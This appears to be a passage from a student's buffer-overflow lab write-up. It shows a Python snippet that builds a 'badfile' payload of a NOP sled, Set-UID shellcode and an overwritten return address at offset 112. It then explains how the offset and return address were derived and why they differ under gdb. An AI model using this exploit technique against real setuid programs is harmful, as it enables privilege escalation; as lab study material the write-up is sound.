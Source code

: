 ```python=
##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc998 + 8 + 144        
offset = 112              

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

In the ``shellcode`` variable we inserted the shellcode provided in the first task, using the 32-bit version, including the provided line that enables Set-UID. Then, after filling the content of the payload with NOP's, we put the shellcode at the end of the 517 bytes string. This way, if the return address points to any of the NOP's, the execution will end up in the shellcode we insert either way. So, by having the maximum number of NOP's possible before the shellcode, the chances of successfully exploiting the vulnerability increase and it becomes easier.

As for the ``offset``, we used the previously calculated difference, as we know that the return address will be located 112 bytes ahead in the stack compared to the start of the buffer in which we want to insert the payload.

The ``ret`` (value of the return address) could be calculated by using the ``ebp`` address and adding 8 bytes (so the address can point to after the return address location). Although this works using ``gdb``, when running the program without using the debugging information, the actual addresses become larger as ``gdb`` adds some information into the stack. This is because `gdb` has pushed some environment data into the stack before running the debugged program. When the program runs directly without using `gdb`, the stack does not have those data, so the actual frame pointer value will be larger. More information about this can be found [here](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it).

<figure align="center">